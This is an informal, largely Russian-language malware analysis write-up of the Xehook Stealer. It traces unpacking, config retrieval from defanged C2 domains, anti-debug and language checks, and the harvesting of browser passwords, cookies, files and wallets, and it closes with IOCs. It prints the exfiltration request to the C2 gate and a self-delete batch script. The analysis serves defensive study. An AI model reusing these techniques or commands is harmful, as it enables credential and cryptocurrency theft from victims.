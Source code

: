 ```yaml
---
title:  "Malware Analysis - Xehook Stealer analysis"
date:   2024-02-29 00:01:00 +0300
author: cozy
categories: [malware, stealer]
---
```


### Introduction
Great Stealer, реально крутой стилак.
SHA256: `a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c`

### Stage 1
натравим de4dot
![](/images/xehook/1.png)\
вооот сразу видно наш народный virtualProtect и createThread. Запускаем, дампим и там будут байтики 0x4d 0x5a то есть **MZ** сигнатура.
![](/images/xehook/2.png)

### xeHook stealer
obfuscated with confuserEx
![](/images/xehook/3.png)

use de4dot\
![](/images/xehook/4.png)\
готовый бинарь кайф
![](/images/xehook/5.png)

Первый метод получает рандомную строку размером в 32 байта из символов "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789". Example: "OYGSQGUGRRQKK07OWWLYT6TE25JAIGKN". Данные байты в конечном итоге будут являться названием файла.
![](/images/xehook/6.png)\
следующий метод декодит C2: `https://trecube[.]com/`, `https://nc1337[.]online/`, а также обращается к C2. Если C2 возвращает `index.html` то ВПО работает с этим C2. В частности первый C2 вернул `index.html` поэтому все дальнейшие обращения будут к этому серверу.

Следующий метод конкатенирует строки с C2 для дальнейшего обращения и получения конфигурации: `https://trecube[.]com/getjson.php?id=40`. 
Получаемая конфигурация:
```Text
"{\r\n\t\"debug\": \"0\",\r\n\t\"emulate\": \"0\",\r\n\t\"virtualbox\": \"0\",\r\n\t\"virustotal\": \"0\",\r\n\t\"error\": \"0\",\r\n\t\"errorname\": \"NONE\",\r\n\t\"errtextbox\": \"NONE\",\r\n\t\"competitor\": \"0\",\r\n\t\"selfmelf\": \"1\",\r\n\t\"domaindetect\": \"facebook.com;linkedin.com;twitter.com\",\r\n\t\"filext\": \"*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*\"\r\n}"
```
проверка на всякие залупы такие как, будет ли проверяться на vm, будет ли проверяться на debug. Также *domaindetect* это домены с которых желательно собирались бы креды??, а *filext* это расширения файлов которые будут спизжены в дальнейшем.

#### Debug features

Также присутсвтуют проверки на debug
![](/images/xehook/7.png)\
![](/images/xehook/8.png)\
В данном случае проверяются следующие запущенные процессы (Маловато?):
1. "processhacker"
2. "netstat"
3. "netmon"
4. "tcpview"
5. "wireshark"
6. "filemon"
7. "regmon"
8. "cain"


Check Ticks\
![](/images/xehook/9.png)\
Также с помощью WMI чекатеся фичи процессора путем выполнения команды: `Select * from Win32_ComputerSystem`
![](/images/xehook/10.png)
Идет обращение к `http://ip-api[.]com/line/?fields=hosting`
![](/images/xehook/11.png)\
Также идет проверка на языки клавиатуры, в частности если один из следующих языков присутсвтует, то ВПО завершает свое выполнение:
1. "ru-RU" (Наши братушки получается??)
2. "kk-KZ"
3. "ro-MD"
4. "uz-UZ"
5. "be-BY"
6. "az-Latn-AZ"
7. "hy-AM"
8. "ky-KG"
9. "tg-Cyrl-TJ"

![](/images/xehook/12.png)


#### Stealer features
Обращается к `http://ip-api[.]com/json/?fields=11827` которая в формате json отдает инфу о тачке
```json
{
    "country": "<country>",
    "countryCode": "<replaced>",
    "city": "<replaced>",
    "zip": "<replaced>",
    "isp": "<holding here_replaced>",
    "org": "<provider_replaced>",
    "as": "<some_data_too_about_provider_replaced>",
    "query": "<ip_here_replaced>"
}
```
кароч я все зареплейсил, но там буквально вся инфа.
весь пиздинг идет в этом методе.
![](/images/xehook/13.png)

пиздинг идет по всем расширениям из C2, а именно:
`*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed`
все найденные файлы данное ВПО упаковывает в .zip архив, формирует файл из тех 32 байтов которые получались в первом методе путем перестановки строки"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".\
Данный файл сохраняется по пути `%LOCALAPPDATA%`. 
В частности: `%LOCALAPPDATA%\53Q98KXOBEQ1UDM2WFKRS8MOQDWDG1EL`

Также пиздятся autofill data, cookie и все что можно с браузеров спиздить.
Также делается screenshot экрана.
В данном методе формируется запрос, которые отправляется на C2. В частности формирутеся такой запрос: 

```text
https://trecube[.]com/gate[.]php?id=40&build=new_cloudnever&passwords=<pass_count>&cookies=<cookies_count>&username=<username>&country=<country>&ip=<ip_here>&BSSID=<md5hash_of_procID_and_Diskdrive_serialNumber>&wallets=<amount_of_wallets>&token=xehook40363717&ext=0&filters=0&pcname=<pc_name>&cardsc=0&telegram=False&discord=False&steam=False&domaindetect=
```


Данный запрос отправляется на C2 вместе с файлом который является большой зипкой,и затем происходит удаление данного файла.
![](/images/xehook/14.png)

В конце выполнения ВПО формирует *.bat* скрипт, а именно скрипт с названием *delete.bat* и сохраняет его в %TEMP%
![](/images/xehook/15.png)

Содержимое данного скрипта:
```cmd
@echo off
ping 127.0.0.1 -n 2 > nul
@ "del ""%DESKTOP%\a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin"""
@"del ""%TEMP%\delete.bat"""
```

В данном скрипте происходит пинг локалхоста, удаление оригинального исполняемого файла, а также удаленние .bat скрипта.

### Stolen data
Вся спизженная дата хранится в *%LOCALAPPDATA%* с рандомным именем состоящим из перестановки 32-х байтов  "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".

Данный файл состоит из зипок .zip, но его можно воспринимать как одну целую зипку, так что его можно просто распаковать.
Вот что хранится внутри данного .zip файла:
![](/images/xehook/16.png)\
Где:
1. Autofills это директория в которой находятся файлик со спизженой autofill датой из браузеров, в частности:\
![](/images/xehook/17.png)\
![](/images/xehook/18.png)\
2. Cookies - спизженные куки файлики.
![](/images/xehook/19.png)\
![](/images/xehook/20.png)
3. Files - все файлы с расширениями указанными в конфигурационном файле с C2, а именно `*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*`
![](/images/xehook/21.png)\
![](/images/xehook/22.png)\
Внутри данных директорий находятся файлы с расширенями, в частности пример:
![](/images/xehook/23.png)\
4. About PC.txt - там находится вся инфа о пк, а также ахуенная stealerNote (записька стилера ;)) )
![](/images/xehook/24.png)\
Также она плейнтекстом
```text    
__  _____| |__   ___   ___ | | __
\ \/ / _ \ '_ \ / _ \ / _ \| |/ /
 >  <  __/ | | | (_) | (_) |   < 
/_/\_\___|_| |_|\___/ \___/|_|\_\

xehook Stealer — https://t[.]me/xehook

Build location: a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin
Build tag: <replaced>
Build version: 2.0.8 Stable

Launch time: <replaced>
IP address: <replaced> 
Postcode: <replaced>
Location: <replaced>

Computer: <replaced>
Username: <replaced>
OS: Windows 10 Pro (x64)
Language: <replaced>

Resolution: <replaced>
GPU: <replaced>
CPU: <replaced>
RAM: <replaced>
MAC: <replaced>

Device HWID: <md5_hash_replaced>
```


ну к слову записка реально ахуенная
5. Passwords.txt - файл с пароля с браузеров, а именно hostname - это url, Username - логин, Password - пароль, Browser - ну клиент типа.\
![](/images/xehook/25.png)\
6. Screenshot.jpg - скриншот во время выполнения ВПО. В частности делается внутри данного метода
![](/images/xehook/13.png)


### IOCS

| C2                       |
|--------------------------|
| https://trecube[.]com/   |
| https://nc1337[.]online/ |

| SHA256                                                           | File   |
| ---------------------------------------------------------------- | ------ |
| a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c | Stage1 |
| daea71a3094e0c90554a77e95b0b354d1515f99e70fa5013f09302a5bb04dde0 | xehook |


### Conclusion
крутой стилак че сказать норм.
